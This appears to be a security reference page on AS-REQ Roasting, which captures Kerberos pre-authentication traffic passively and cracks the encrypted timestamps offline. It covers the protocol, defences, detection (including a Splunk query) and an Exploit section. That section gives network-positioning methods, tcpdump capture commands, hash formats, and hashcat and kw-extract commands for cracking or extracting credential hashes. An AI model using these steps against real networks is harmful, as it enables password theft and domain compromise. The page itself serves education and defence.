

# AS-REQ Roasting (Passive Capture)

AS-REQ Roasting extracts crackable hashes from Kerberos pre-authentication traffic captured passively on the network. Unlike Kerberoasting and AS-REP Roasting, this attack does not require any interaction with the KDC -- the attacker simply observes legitimate authentication traffic.

## How It Works

During a standard [AS Exchange](../../protocol/as-exchange.md), the client proves its identity by encrypting a timestamp with its long-term key. This encrypted timestamp is the `PA-ENC-TIMESTAMP` field in the AS-REQ's pre-authentication data ([RFC 4120 &sect;5.2.7.2]).

Every time a user authenticates to the domain -- at workstation logon, screen unlock, accessing a new service -- their client sends an AS-REQ containing this encrypted timestamp. The encryption key is derived from the user's password:

- **RC4-HMAC** (etype 23): key = `MD4(UTF-16LE(password))` -- no salt, no iterations
- **AES256** (etype 18): key = `PBKDF2-SHA1(password, salt, 4096)` where salt = `<REALM><principal>`
- **AES128** (etype 17): key = `PBKDF2-SHA1(password, salt, 4096)` with a different constant

An attacker positioned on the network between clients and the KDC can capture these AS-REQ packets and extract the encrypted timestamp. Since the plaintext is a known structure (a timestamp in ASN.1 DER encoding with a predictable format), the attacker has both the ciphertext and a strong guess at the plaintext structure, enabling offline cracking.



### What Makes This Attack Unique

| Property | AS-REQ Roasting | Kerberoasting | AS-REP Roasting |
|----------|-----------------|---------------|-----------------|
| **Attacker sends packets** | No (passive) | Yes (TGS-REQ) | Yes (AS-REQ) |
| **Auth required** | None | Domain user | None |
| **Network position** | Required (MITM/tap) | Not required | Not required |
| **Targets** | Everyone who authenticates | SPN-bearing accounts | No-preauth accounts |
| **Detection difficulty** | Very hard | Moderate | Moderate |

The key advantage is that this attack is **completely passive**. The attacker sends no packets, makes no requests, and leaves no trace on the KDC. Every user who authenticates during the capture window produces a crackable hash. In a large environment, a one-hour capture from a well-positioned network tap can yield hundreds of hashes.

### Encryption Type Impact

The cracking difficulty depends entirely on which encryption type the client used for pre-authentication:

| Encryption | Hashcat Mode | Relative Speed | Key Derivation |
|------------|-------------|----------------|----------------|
| RC4-HMAC | 7500 | Fastest | MD4(password), no salt |
| AES128 | 19800 | ~400x slower | PBKDF2-SHA1, 4096 iterations |
| AES256 | 19900 | ~800x slower | PBKDF2-SHA1, 4096 iterations |

The encryption type used in the AS-REQ is determined by the client's configuration and the KDC's response to the initial (no-preauth) request. See [Encryption Negotiation](../../security/etype-negotiation.md) for how this is decided.

---

## Defend

### AES Enforcement

Enforcing AES for Kerberos pre-authentication is the single most effective mitigation. AES pre-authentication uses PBKDF2 with 4096 iterations, making each cracking attempt thousands of times slower than RC4. See [Group Policy](../../security/group-policy.md) and [RC4 Deprecation](../../security/rc4-deprecation.md) for configuration details.

### Network Segmentation

Isolate Kerberos traffic (port 88) from untrusted network segments. Clients should reach the DC over trusted, monitored links. If attackers cannot capture port 88 traffic, they cannot perform this attack.

Specific measures:

- Place domain controllers in a dedicated VLAN with restricted access
- Use port security and DHCP snooping to prevent unauthorized devices on DC-facing segments
- Enable Dynamic ARP Inspection (DAI) to prevent ARP spoofing

### FAST Armor (Kerberos Armoring)

Flexible Authentication Secure Tunneling (FAST), defined in [RFC 6113], wraps the entire AS exchange inside an encrypted tunnel. This prevents eavesdroppers from seeing the `PA-ENC-TIMESTAMP` at all, completely neutralizing passive capture attacks.

FAST armoring requires:

- Windows Server 2012+ domain functional level
- Domain-joined clients running Windows 8+ or equivalent
- Group Policy: `KDC support for claims, compound authentication, and Kerberos armoring` = **Supported** or **Always provide claims**

!!! warning "FAST armoring is not widely deployed in most environments because it requires all clients to support it. Non-domain-joined devices and many third-party Kerberos clients do not support FAST."

### IPSec / Encrypted Transport

As a defense-in-depth measure, encrypt Kerberos traffic between clients and DCs using IPSec transport mode. This prevents passive capture of any Kerberos messages regardless of FAST support.

### Strong Password Policy

Regardless of encryption type, strong passwords (15+ characters, not dictionary-based) make offline cracking much harder. This is a general defense that helps against all roasting attacks.

---

## Detect

Passive network capture is inherently difficult to detect because the attacker sends no anomalous traffic. Detection must focus on the preconditions rather than the attack itself.

### Detect Network Positioning

The attacker must be positioned to capture traffic. Look for indicators of the network positioning techniques they use:

- **ARP spoofing**: Dynamic ARP Inspection alerts, gratuitous ARP storms, ARP table inconsistencies
- **Rogue devices**: 802.1X authentication failures, new MAC addresses on sensitive VLANs
- **SPAN/mirror port abuse**: monitor switch configuration changes via SNMP traps or syslog

### Monitor for RC4 Pre-Authentication

If AES is enforced but you see RC4 pre-authentication in your network traffic (via packet inspection or DC logs), this may indicate a downgrade attack or a misconfigured client -- both worth investigating.

Event ID 4768 includes the encryption type used. Look for etype 23 (RC4) in environments where AES is expected:

```text
index=security EventCode=4768 TicketEncryptionType=0x17
| stats count by TargetUserName, IpAddress
```

### Network Traffic Anomalies

Monitor for unusual traffic patterns on the DC-facing network that suggest passive capture is in progress:

- Promiscuous mode on network interfaces (detected via some endpoint agents)
- Unexpected traffic volumes on SPAN ports
- ARP table changes

---

## Exploit

### 1. Position on the Network

Gain a position where you can observe traffic between domain clients and the KDC. Common methods:

- **ARP spoofing** between the target subnet and the DC
- **SPAN/mirror port** access on the network switch
- **Compromised switch** or network appliance
- **Wi-Fi capture** in environments where wireless clients authenticate to the domain
- **Physical network tap** (red team physical access scenarios)

### 2. Capture Port 88 Traffic

```bash title="Capture Kerberos traffic on port 88"
# Save to file for later extraction
tcpdump -i eth0 -w capture.pcap port 88

# Capture for a specific duration
timeout 3600 tcpdump -i eth0 -w capture.pcap port 88
```

The longer the capture window, the more users will authenticate and the more hashes will be collected.

### 3. Extract PA-ENC-TIMESTAMP Hashes

Parse the captured packets and extract the encrypted timestamp from each AS-REQ that contains pre-authentication data. The hash format depends on the encryption type:

| Encryption | Hashcat Mode | Hash Format |
|------------|-------------|-------------|
| RC4-HMAC | 7500 | `$krb5pa$23$user$realm$<cipher_bytes>` |
| AES128 | 19800 | `$krb5pa$17$user$realm$$<cipher_bytes>` |
| AES256 | 19900 | `$krb5pa$18$user$realm$$<cipher_bytes>` |

### 4. Crack Offline

```bash title="Crack AS-REQ pre-auth hashes with wordlist and rules"
# RC4 hashes (fast)
hashcat -m 7500 hashes.txt wordlist.txt -r rules/best64.rule

# AES256 hashes (slow but possible for weak passwords)
hashcat -m 19900 hashes.txt wordlist.txt -r rules/best64.rule
```

!!! info "AS-REQ Roasting can also capture AS-REP and TGS-REP data from the same traffic. If the capture includes responses to no-preauth accounts, you get AS-REP hashes as well. If it includes TGS-REP traffic, you get Kerberoast-equivalent hashes. kw-extract handles all three types automatically."

---

## Tools

### kerbwolf: kw-extract

`kw-extract` is an offline hash extraction tool that parses pcap and pcapng files. It extracts all Kerberos hash types (AS-REQ pre-auth, AS-REP, TGS-REP) as well as MS-SNTP (timeroast) and NTLM hashes from a single capture file.

#### Extract from a Saved Capture

```bash
kw-extract capture.pcap -o hashes.txt
```

Parses the pcap, identifies all AS-REQ messages containing `PA-ENC-TIMESTAMP`, and outputs hashcat-format hashes. Also extracts any AS-REP and TGS-REP hashes found in the capture.

#### Real-Time Extraction from Pipe

```bash
tcpdump -i eth0 -w - port 88 | kw-extract -
```

Reads pcap data from stdin, enabling live extraction as traffic is captured. Hashes are printed to stdout as they are detected.

#### Multiple Capture Files

```bash
kw-extract *.pcap -o all-hashes.txt
```

Processes all pcap files in the directory and consolidates hashes into a single output file.

#### John Format Output

```bash
kw-extract capture.pcapng --format john
```

### What kw-extract Extracts

| Hash Type | Source | Hashcat Mode |
|-----------|--------|-------------|
| `$krb5pa$` | PA-ENC-TIMESTAMP in AS-REQ | 7500 / 19800 / 19900 |
| `$krb5asrep$` | enc-part in AS-REP (no-preauth) | 18200 / 32100 / 32200 |
| `$krb5tgs$` | Service ticket enc-part in TGS-REP | 13100 / 19600 / 19700 |
| `$sntp-ms$` | MS-SNTP authenticator | 31300 |

kw-extract handles TCP stream reassembly, Ethernet/Raw IP/VLAN encapsulation, and IPv4/IPv6 automatically.

### Other Tools

| Tool | Platform | Notes |
|------|----------|-------|
| `pcredz` | Linux | Extracts credentials from pcaps (limited Kerberos support) |
| Wireshark (manual) | Cross-platform | Can display Kerberos fields but requires manual hash formatting |
